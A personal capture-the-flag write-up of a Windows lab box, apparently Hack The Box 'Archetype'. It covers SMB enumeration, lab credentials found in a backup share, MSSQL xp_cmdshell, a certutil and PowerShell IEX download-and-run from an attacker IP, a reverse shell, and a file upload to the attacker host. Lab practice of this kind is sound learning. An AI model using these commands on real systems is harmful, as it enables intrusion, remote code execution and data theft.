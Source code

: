 ==Target ip== 10.129.95.187

# 1. Nmap: 
-> I always want to start here to see what ports are open and what services are running.

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.129.95.187 -oN nmap.basic`

When that scan is done I want to do a deeper scan and run that while I do other tasks.

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.129.95.187`

==Result of basic scan==

![[Pasted image 20250518173247.png]]

-> ==Thinking==: Ok there is a lot here
1. It's obviously a Windows machine
2. SMB is running (something we can look into)
3. 2017 SQL Server
4. httpd 2.0 running. I don't know what SSDP/UPnP is, but we can research it.

# Let's try enum4linux
`enum4linux -a 10.129.95.187` -> does **all** simple enumeration

==findings==:  

[+] Server 10.129.95.187 allows sessions using username '', password '' <- Anonymous sessions over SMB

Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none <- Vaild usernames

# Try to connect to an smbshare without creds
`smbclient -L \\10.129.95.187\\ -N`

==Findings==: 
1. This lists out a non default share called "backups", let's check that out. <- We do not have access to ADMIN$
	- `smbclient //10.129.95.187/backups -N`
	- This shows a file that we can get.
![[Pasted image 20250518174844.png]]

==Very small sorry== There is a username and password in this file!
And This is the file it appears to be XML. I am not totally sure what to do with that but I know XXE is a think, time for some research. 

ID = ARCHETYPE\sql_svc
Password = M3g4c0rp123

==What this file is==: this is **XML**, specifically a **DTS (Data Transformation Services) configuration file** used by SQL Server Integration Services (SSIS).

# Going to 10.129.95.187:5985
Gives a 404. I am not sure why, maybe we can check on this later.

### The creds work for SMB, but not for the admin share.

# Lets use impacket `mssqlclient.py` to try the creds on the sql server:

Impacket location on my machine: `/usr/share/doc/python3-impacket/examples/`

==Command== 
`python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.129.95.187 -windows-auth

*Login with password*

Tried these commands: 
"
SELECT SYSTEM_USER;
EXEC xp_cmdshell 'whoami';
"
But xp_cmdshell is not enabled. ==But we can enable xp cmdshell because we have privs!==

==Listing privileges==
![[Pasted image 20250518181401.png]]

==Limited privileges for Sql_svc. It is database admin but not OS-level admin==  What we need to do is upload a tool that can check for privilege escalation.

BUT -> SeImpersonatePrivilege allows for token impersonation, so we can try to upload a tool and take advantage of that.

**What is token impersonation?**: A technique where a lower-privileged user **impersonates a higher-privileged user’s security token** to perform actions they normally wouldn't be allowed to — like becoming `SYSTEM`.

### I need to download printspoofer and cross-compile it with mingw-w64

**Connect to the smbshare:** `smbclient //10.129.95.187/backups -U 'ARCHETYPE\sql_svc'`

==I cannot upload printspoofer on there, I need to find another way==

==Idea==: Maybe I can host the file on a python server and reach out with the database?

1. `python -m http.server 80` <- in the printspoofer directory
2. What is my ip? `ip a` -> look for tun0 (10.10.16.54)
3. *Log in to sql server*
4. `EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.16.54/PrintSpoofer.exe C:\Users\Public\PrintSpoofer.exe';` 
     <- Livin off the land!
 5. Verify its location `EXEC xp_cmdshell 'dir C:\Users\Public\PrintSpoofer.exe`
 6. Run it `EXEC xp_cmdshell 'C:\Users\Public\PrintSpoofer.exe -i -c cmd.exe';` ==The command did not work==
![[Pasted image 20250518220744.png]]

-> What now? 
	1. Maybe the print service is not running? or
	2. The machine is patched, we'll have to find another way (==I think getting winpeas on the machine and running it would be good!==)
	3. Got a reverse shell from here => https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3#:~:text=Got%20stderr%20working%20with%20this%20modification%3A
	4. Setup a Python server and ran this command to fetch the reverse shell: `EXEC xp_cmdshell "powershell -Command IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.54/revshell2.ps1')";`
	5. Run winpeas
	6. ==The user flag is in the sql_svc Desktop==

# How to upload a file from the victim machine to the attacker: 
*on the victim machine with python server on the attacker machine*
`powershell -Command "(New-Object Net.WebClient).UploadFile('http://10.10.16.54/upload', 'C:\Users\Public\winpeas_output.txt')"`
